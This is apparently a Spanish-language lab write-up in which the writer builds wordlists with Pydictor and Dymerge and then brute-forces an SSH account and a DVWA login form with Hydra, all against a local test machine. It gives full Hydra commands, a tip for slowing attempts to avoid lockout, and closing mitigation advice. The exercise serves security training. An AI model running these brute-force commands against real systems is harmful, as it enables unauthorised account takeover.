



# 1. Creación de diccionarios con PYDICTOR Y DYMERGE
## 1.1. Instalación

## 1.2.  Creación de los diccionarios con Pydictor

*python pydictor.py  --len 4 6 -base d -o numeros.txt*

*python pydictor.py --len 1 4 -base c -o mayusculas.txt*

## 1.3. Fusionar los diccionarios con Dymerge

*python2 dymerge.py /home/miguel/Escritorio/pydictor/results/numeros.txt /home/miguel/Escritorio/pydictor/results/mayusculas.txt -s -u -o /home/miguel/Escritorio/pydictor/results/diccionario.txt*

---

# 2. Simulación de ataque de fuerza bruta en SSH con Hydra
## 2.1. Configuración del servidor SSH

sudo apt update
sudo apt install openssh-server
sudo systemctl start ssh
sudo systemctl enable ssh
sudo systemctl status ssh

## 2.2. Crear un usuario objetivo

sudo adduser atacame

Contraseña: 0000

## 2.3. Simulación del ataque e instalción de Hydra 
 
ip: 10.0.2.15

### 2.3.1 Error que surgió en el ataque

- Al poner este comando *hydra -l atacame -P /home/miguel/Escritorio/pydictor/results/diccionario.txt ssh://10.0.2.15*, hydra intenta probar muchas contraseñas a la vez para ir pas rapido. Por defecto, usa 16 intentos simultáneos. El servidor al que se ataca tiene una medida de seguridad. Cuando detecta demasiados intentos de inicio de sesion fallidos desde la mism aip es muy poco tiempo, bloquea esa ip temporalmente.

 ­
- **SOLUCIÓN:** Añadir *-t 4* o *-t 1* al comando. Esto le dirá a hydra que solo intente 4 o 1 contraseñas a la vez en lugar de 16.

## 2.4. SIMULACION DEL ATAQUE

*hydra -l atacame -P /home/miguel/Escritorio/pydictor/results/diccionario.txt ssh://10.0.2.15 -t 1*

---

# 3. Revisar los Logs y Mitigar

- Se realiza el ataque desde la terminal del administrador

- Mintras que, al mismo tiempo, esta abierta la terminal del usuario, en este caso "atacame". Con el comando sudo journalctl -u ssh -f

- En esta ultima imagen se puede ver como el ultimo intento de inicio de sesion fue a las 13:35:54, igual que el ataque.

## 3.1. Análisis y Mitigación

En un entorno real, para prevenir esto se usan:

- **Contraseñas robustas:** Combinaciones largas de mayúsculas, minúsculas, números y símbolos.

- **Fail2Ban:** Software que banea IPs con demasiados intentos fallidos.

- **Autenticación por clave pública (SSH Keys):** Mucho más seguro que las contraseñas.

- **Cambiar el puerto por defecto:** Reduce los ataques automatizados.

---

# 4. Ataque de Fuerza Bruta a un Formulario Web (HTTP) con Hydra

## 4.1. Instalar y Configurar DVWA

sudo apt install apache2 mariadb-server php php-mysqli php-gd -y
sudo systemctl start apache2
sudo systemctl start mariadb

sudo git clone https://github.com/digininja/DVWA.git /var/www/html/dvwa
sudo chown -R www-data:www-data /var/www/html/dvwa

## 4.2. Configura la base de datos de DVWA

- Se copia el archivo de configuración: 
*sudo cp /var/www/html/dvwa/config/config.inc.php.dist /var/www/html/dvwa/config/config.inc.php*

- Se abre el archivo *sudo nano /var/www/html/dvwa/config/config.inc.php* y se cambia el valor de db_password a: 'password'

---
# 5. Identificar Formulario

- Abrir en el Navegador e ir a *http://127.0.0.1/login.php*. Iniciamos sesion y luego hacer clic en "Create/Reset Database".

 
 - Nos vamos a "DCWA Security" y ponemos el security level en "low".

- Luego nos vamos a "Brute Force" y veremos el formulario donde haremos el ataque.

- Nota: Si por alguna razón no abre, se debe revisar el status de apache2 con *sudo systemctl status apache2* y verificar si esta activado, si no lo esta, lo activamos con *sudo systemctl start apache2*.

## 5.1. Ataque con Hydra
- El usuario por defecto de DVWA es *admin* y la contraseña es *password*. Primero, agregar "password" al diccionario. Para que el ataque sirva, lo añadí manualmente.

## 5.2. Activar Docker
- En mi caso, para poder abir la pagina, necesitaba tener el "Docker" abierto en una terminal diferente. El Docker nos da un entorno de servidor perfecto, aislado y preconfigurado con un solo comando, este evita problemas de instalación, configuración y conflictos.

*sudo apt install docker.io -y*
*sudo docker run --rm -it -p 80:80 vulnerables/web-dvwa*

-  Después de ejecutar el comando, la terminal se llenará con los logs del servidor Apache y MySQL iniciándose. No cerrar esta terminal, simplemente minimízarla.

## 5.3. Ataque

*hydra -l admin -P /home/miguel/Escritorio/pydictor/results/diccionarion.txt 127.0.0.1 http-get-form "/vulnerabilities/brute/:username=admin&password=^PASS^&Login=Login::F=Username and/or password incorrect."*
*

---

# 6. ¿Cómo Mitigar Ataques Similares en Entornos Reales?
- Para proteger un sistema real contra este tipo de ataques, nunca se confiaria en una sola medida. Se deberian de implementar múltiples capas de defensa. 

 